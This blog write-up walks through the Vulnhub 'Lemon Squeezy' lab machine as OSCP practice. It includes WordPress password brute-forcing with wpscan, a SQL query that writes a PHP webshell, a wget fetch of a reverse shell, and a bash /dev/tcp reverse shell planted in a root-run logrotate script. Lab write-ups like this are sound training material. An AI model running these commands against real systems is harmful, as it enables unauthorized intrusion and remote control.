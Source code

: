 ```yaml
---
layout: single
title: "Vulnhub Write-up: Lemon Squeezy"
excerpt: "Writeup for an OSCP-like machine created by my hackin' homie"
date: 2020-05-13
header:
  teaser: #/assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
tags:
  - enumeration
  - wordpress
  - sql
---
```




My study partner and former colleague recently created an OSCP-like machine for Vulnhub, as my machine [Stripes](https://www.vulnhub.com/entry/stripes-1,468/) already has a writeup available, I decided to be the first one to draw blood on his and create this writeup.
I would rate this box as easy with a couple of curveballs but overall pretty straightforward and absolutely perfect for beginners to sink their teeth into.

You can download the machine from vulhub <a href="https://www.vulnhub.com/entry/lemonsqueezy-1,473/">Here</a>

## Summary 

- Scan wordpress to obtain both usernames and passwords
- Obtain PHPmyadmin creds and login
- Create backdoor by abusing SQL CLI access
- Keep squeezing the machine until the hidden escalation vector is identified

## Enumeration 
### Nmap :

![nmap](/assets/images/lemonsqueezy/1.jpg)


Full port scan shows just 80 (HTTP) open.
Navigating to 80 shows just the default apache page.
Gobuster shows that wordpress is installed, for good measure I started a dirbuster scan in the background in case wordpress was a red herring, 
however was confident that enumerating with wpscan would yield some information.

        wpscan --url http://lemonsqueezy/wordpress --enumerate u

As below we get 2 users:

![users](/assets/images/lemonsqueezy/2.JPG)

Next I ran good old rockyou against them:

        wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange

The first password is found very fast, I left the attack going on lemon but am highly doubtful it will find anything, I will move onto logging in:


![password](/assets/images/lemonsqueezy/3.JPG)

After seeing we will not be able to upload a shell, I had a look around the panel and found a draft post with a password in it.

I tried it in phpmyadmin first, as the draft was created by the current user (orange), and was able to log into phpmyadmin as orange with this PW first try

I had a brief look for exploits for the phpmyadmin version however decided to see what I could and couldn't do in here first.
Turns out I can set a new password value for lemon, which should allow me to log into the admin panel in WP and get a shell.
I changed the password to "password" and logged in.


![change_pass](/assets/images/lemonsqueezy/4.JPG)

Looks like the themes cannot be edited and media cannot be uploaded, seems to be intentionally hardened against this vector - so we will put a malicious plugin together and get shell this way.
I used a handy tool called wordpwn to spin a malicious plugin together - however I failed to realise that ALL upload functionailty is broken - so this did not work.
I went back to Phpmyadmin where I am unable to create new databases.
What I can do however is run direct sql queries.
I used this to create a webshell and confirm code execution as below:

        select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'

confirmed code execution with whoami:

        http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=whoami

![change_pass](/assets/images/lemonsqueezy/5.JPG)

I tried a few reverse shell oneliners however none worked so I gave up and simply hosted a php reverse shell, 
amended the IP and then grabbed with wget:

         http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.20.132/1.php

I then started a listener, navigated to the shell I just grabbed and now have a proper low priv foothold:

        http://lemonsqueezy/wordpress/wp-content/uploads/1.php


![low_priv](/assets/images/lemonsqueezy/6.JPG)

I upgraded my shell because I am both lazy and fancy

   In remote terminal:
   
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z
	
   In Kali terminal:
   
        stty -a
        stty raw -echo
        fg
        stty rows 20
	
Ta-da, now I have handy features such as autocomplete, access to bash history etc.
One of the first things I do with a www-data shell is go straight to /var/www/ and snoop around for additional web apps and credentials,
I was surprised to see user.txt in there, I did not think I would be able to read yet, however I was able to grab the flag - I suspect this means that we will 
either be pivoting straight to root or be able to read root flag as lemon/orange

![low_priv](/assets/images/lemonsqueezy/7.JPG)

*fun fact, flag decodes to "Music can change your life, "


## Privilege Escalation 

I did not find out anything in here I did not already know, I also manually checked for local listening ports and sudo commands aswell as snooped around orange's directory, so I decided to infiltrate some enumeration scripts to finish the rest of the groundwork for me.
After trying linenum and linpeas only linux smart enum gave me some useful info, I suspect this is because the binary was hidden by being called logrotate
https://github.com/diego-treitos/linux-smart-enumeration

![logrotate](/assets/images/lemonsqueezy/8.JPG)

I overwrote the code inside logrotate with a generic bash reverse shell one liner and got a shell back as root.

        #!/bin/bash
        bash -i >& /dev/tcp/192.168.20.132/8080 0>&1

![root_proof](/assets/images/lemonsqueezy/9.JPG)

The flag by itself does not decode, however if you add it to the second flag you get a profound bit of wisdom.
I will leave this to the solver to find this :)

All in all I think this was a fantastic OSCP prep machine, I personally preffered the user foothold over the privilege escalation but it certainly made me "squeeze" a bit harder huehuehue



